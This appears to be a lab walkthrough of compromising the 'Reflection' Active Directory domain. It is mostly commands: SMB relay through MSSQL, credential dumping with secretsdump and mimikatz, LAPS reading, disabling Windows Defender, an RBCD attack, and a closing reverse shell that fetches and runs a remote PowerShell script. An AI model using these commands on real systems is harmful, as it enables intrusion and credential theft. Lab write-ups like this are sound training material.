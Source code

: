 

![](Reflection_.png)


```
SMB         10.10.193.215   445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.193.214   445    MS01             [*] Windows Server 2022 Build 20348 x64 (name:MS01) (domain:reflection.vl) (signing:False) (SMBv1:False)
SMB         10.10.193.213   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:reflection.vl) (signing:False) (SMBv1:False)
```


### INITIAL_ACCESS


We got guest level access in MS01 , and got a staging_db.conf file.


```
└─# crackmapexec smb ip_ -u guest -p '' --shares

└─# impacket-smbclient reflection.vl\guest@10.10.193.214
```

![](Guest_Ms01.png)


Its the credential of mssql server !


```
└─# impacket-mssqlclient reflection.vl/web_staging:Washroom510@10.10.193.214 
```


![](Mssql_Server.png)




Now , We need to relay the authentication . i.e smb_relaying !  [Blog](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/adversary-in-the-middle/smb-relay#performing-the-attack-from-linux)


Attacker

Edit the /etc/responder/responder.conf file , Set SMB and HTTP to 'off'

![](Responder.conf.png)


Then start the responder and ntlmrelay tools !

```
└─# responder -I tun0 -v  
```


```
└─# impacket-ntlmrelayx -tf ip_ -smb2support -i
```



![](Relay.png)




Victim 


```
SQL (web_staging  guest@master)> xp_dirtree \\10.8.0.148\chain\anything
```



WE got connection to the relay attack , Lets connect !

![](Successful_Relay.png)


Cool ! We got access to the Domain Controller and got another conf. file.


![](NetCat_Access.png)



DC also got mssql server , Lets connect to the DC's SQl Server !

```
└─# impacket-mssqlclient reflection.vl/web_prod:Tribesman201@10.10.193.213
```



```sql
enum_db

use prod

SELECT * FROM prod.INFORMATION_SCHEMA.TABLES;

select * from users;
```




![](Mssql_Dump.png)


```
abbie.smith  :::  CMe1x+nlRaaWEw

dorothy.rose  :::  hC_fny3OK9glSJ
```


They are domain Users . Lets enumerate AD !




```
└─# bloodhound-python --username abbie.smith --password 'CMe1x+nlRaaWEw' --domain reflection.vl --nameserver 10.10.193.213 --domain-controller DC01.reflection.vl --collectionmethod all --zip
```



![](Blood_Hound.png)


Abbie.Smith got `GenericAll` privilege to MS01 server ! 

```This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.```


Checking LAPS credentials !

```
Windows Local Administrator Password Solution** (Windows LAPS) is a Windows feature that automatically manages and backs up the password of a local administrator account on your Microsoft Entra joined or Windows Server Active Directory-joined devices.
```


```
└─# crackmapexec ldap dc01 -u "abbie.smith" -p "CMe1x+nlRaaWEw" -M laps
```


![](Laps_Creds.png)




### MS01

```
└─# crackmapexec smb 10.10.205.246 -u MS01$ -p 'H447.++h6g5}xi' --local-auth
```

Local-Auth --> It is computer account not domain-joined .

But this account doesnot have high privilege , Lets check for password Reuse !

```
└─# crackmapexec smb 10.10.205.246 -u administrator -p 'H447.++h6g5}xi' --local-auth
```

As this is the high level user , Now Lets dump some secrets along the way !!

```
└─# impacket-secretsdump MS01/administrator:'H447.++h6g5}xi'@10.10.205.246
```


![](SecretsDump_MS01.png)

Seems Like Georgia.Price have recently Logged-In to the system ! And she got high privilege !!


Lets Grab Mimikatz and Get her credentials from the system !


```
└─# evil-winrm -i 10.10.205.246 -u administrator -p 'H447.++h6g5}xi'
```

Before Runnning mimikatz , disable AV.

```
powershell.exe Set-MpPreference -DisableScriptScanning 1

powershell.exe Set-MpPreference -DisableRealtimeMonitoring 1
```

Then , 

```
.\mimikatz.exe "token::elevate" "privilege::debug" "lsadump::sam" "vault::cred /patch" "exit"
```

![](Georgia.Prince_Creds.png)


Cool ! We Got her Credentials . Lets Explore and Penetrate More!

### WS01


![](Georgia_Prince_Hound.png)


```
The user GEORGIA.PRICE@REFLECTION.VL has GenericAll privileges to the computer WS01.REFLECTION.VL.

This is also known as full control. This privilege allows the trustee to manipulate the target object however they wish.
```


This time there isnt LAPS credentials stored in the DC. We gotta do RBCD Attack as we already compromised MS01 we can delegate to WS01.


```
└─# impacket-rbcd 'reflection.vl/Georgia.Price:DBl+5MPkpJg5id' -delegate-from MS01$ -delegate-to WS01$ -action 'write' -dc-ip DC01
```

![](RBCD_.png)

```
└─# impacket-getST -dc-ip dc01 -spn cifs/ws01 'reflection.vl/ms01$' -impersonate administrator -hashes :ce3fff37d339890e91728fde0d381c45
```

![](RBCD_2.png)



Cool ! We impersonated Administrator !!


```
└─# export KRB5CCNAME=administrator@cifs_ws01@REFLECTION.VL.ccache
```

```
└─# impacket-secretsdump -k ws01
```


![](SecretsDump_Ws01.png)

We got Rhys.Garner Credentials ! Lets check his privileges ! He dont have privilege , But Dom_Rgarner might be the higher priv. account of rhys.

![](Dom_Rhys.png)



Yeah , It is and also he reused his credentials for both of his accounts !


![](Dc_Pwned.png)


```
└─# crackmapexec smb dc01 -u dom_rgarner -p 'knh1gJ8Xmeq+uP'
```


The Domain Controlled is Pwned !


## Learned 

SMB relaying 
Generic All Attack 
	--> Read LAPS Credentials
	 --> RBCD Attack
Password Reuse 


## Reverse Shell

We are using atexec to disable windows defender and execute a nishang reverse shell to get access to the box WS01

```bash
impacket-atexec -hashes :a29542cb2707bf6d6c1d2c9311b0ff02 'ws01/administrator@ws01' 'powershell.exe -c "Set-MpPreference -DisableRealtimeMonitoring $true"' 
impacket-atexec -hashes :a29542cb2707bf6d6c1d2c9311b0ff02 'ws01/administrator@ws01' 'powershell.exe -c "Set-MpPreference -ExclusionPath C:\\"'
impacket-atexec -hashes :a29542cb2707bf6d6c1d2c9311b0ff02 'ws01/administrator@ws01' "powershell.exe -nop -w hidden -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://10.8.0.84/shell.ps1');"
```


```
└─# crackmapexec smb ws01 -u administrator -H a29542cb2707bf6d6c1d2c9311b0ff02 --local-auth --get-file \\Users\\rhys.garner\\Desktop\\flag.txt flag --exec-method atexec
```

